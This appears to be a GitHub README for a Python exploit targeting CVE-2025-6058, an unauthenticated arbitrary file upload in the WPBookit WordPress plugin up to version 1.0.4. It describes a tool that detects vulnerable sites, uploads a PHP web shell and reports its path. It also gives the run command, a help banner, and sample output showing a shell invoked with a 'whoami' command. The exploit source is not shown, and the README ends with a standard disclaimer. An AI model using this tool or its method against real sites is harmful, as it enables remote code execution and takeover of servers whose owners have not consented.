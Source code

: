 # ⚡ WPBookit <= 1.0.4 - Unauthenticated Arbitrary File Upload

---

## 📝 Description

The **WPBookit** plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the `image_upload_handle()` function, which is hooked via the `add_booking_type` route in all versions up to, and including, **1.0.4**.  
This flaw allows unauthenticated attackers to upload arbitrary files to the affected site's server, potentially leading to **remote code execution**.

| CVE              | CVSS Score          | Publicly Published | Last Updated       |
|------------------|---------------------|--------------------|--------------------|
| **CVE-2025-6058**| **9.8 (Critical)**  | July 11, 2025      | July 12, 2025      |

---

## 🚀 What does this exploit do?

This exploit automates the process of:
- Detecting if the target is running a vulnerable version of WPBookit (<= 1.0.4)
- Uploading a PHP shell using the vulnerable route, without authentication
- Confirming the shell upload and providing its exact path for remote command execution

---

## 🛠️ Usage

```bash
python3 CVE-2025-6058.py -u http://target.com/wordpress
```

---

## 🖥️ Example

```bash
python3 CVE-2025-6058.py -u http://target.com/wordpress
```

---

## 🆘 Help & Banner Example

```bash
python CVE-2025-6058.py -help

  ______   __     __  ________       ______    ______    ______   _______            ______    ______   _______    ______  
 /      \ /  |   /  |/        |     /      \  /      \  /      \ /       |          /      \  /      \ /       |  /      \ 
/$$$$$$  |$$ |   $$ |$$$$$$$$/     /$$$$$$  |/$$$$$$  |/$$$$$$  |$$$$$$$/          /$$$$$$  |/$$$$$$  |$$$$$$$/  /$$$$$$  |
$$ |  $$/ $$ |   $$ |$$ |__  ______$$____$$ |$$$  \$$ |$$____$$ |$$ |____   ______ $$ \__$$/ $$$  \$$ |$$ |____  $$ \__$$ |
$$ |      $$  \ /$$/ $$    |/      |/    $$/ $$$$  $$ | /    $$/ $$      \ /      |$$      \ $$$$  $$ |$$      \ $$    $$< 
$$ |   __  $$  /$$/  $$$$$/ $$$$$$//$$$$$$/  $$ $$ $$ |/$$$$$$/  $$$$$$$  |$$$$$$/ $$$$$$$  |$$ $$ $$ |$$$$$$$  | $$$$$$  |
$$ \__/  |  $$ $$/   $$ |_____     $$ |_____ $$ \$$$$ |$$ |_____ /  \__$$ |        $$ \__$$ |$$ \$$$$ |/  \__$$ |$$ \__$$ |
$$    $$/    $$$/    $$       |    $$       |$$   $$$/ $$       |$$    $$/         $$    $$/ $$   $$$/ $$    $$/ $$    $$/ 
 $$$$$$/      $/     $$$$$$$$/     $$$$$$$$/  $$$$$$/  $$$$$$$$/  $$$$$$/           $$$$$$/   $$$$$$/   $$$$$$/   $$$$$$/  
                                                                                                                           
                                                                                                                           
                                                                                                                           

Exploit By : Khaled Alenazi (Nxploited ) GitHub: https://github.com/Nxploited

usage: CVE-2025-6058.py [-h] -u URL

CVE-2025-6058 WPBookit <= 1.0.4 - Unauthenticated Arbitrary File Upload | by Khaled Alenazi (Nxploited)

options:
  -h, --help     show this help message and exit
  -u, --url URL  Target URL e.g http(s)://target.com/wordpress
```

---

## 📤 Output

```
[*] Checking plugin version ...
[*] Exploiting file upload ...
[+] Exploitation successful!
[+] Shell path: wp-content/uploads/2025/07/shell.php?cmd=whoami
Exploit By : Khaled Alenazi (Nxploited ) GitHub: https://github.com/Nxploited
```

---

## ⚠️ Disclaimer

This tool is provided for **educational and authorized security testing purposes only**.  
The author is not responsible for any misuse or unauthorized activity.  
**Use at your own risk and always ensure you have permission to test the target system.**

---

**_By: Khaled Alenazi (Nxploited)_**
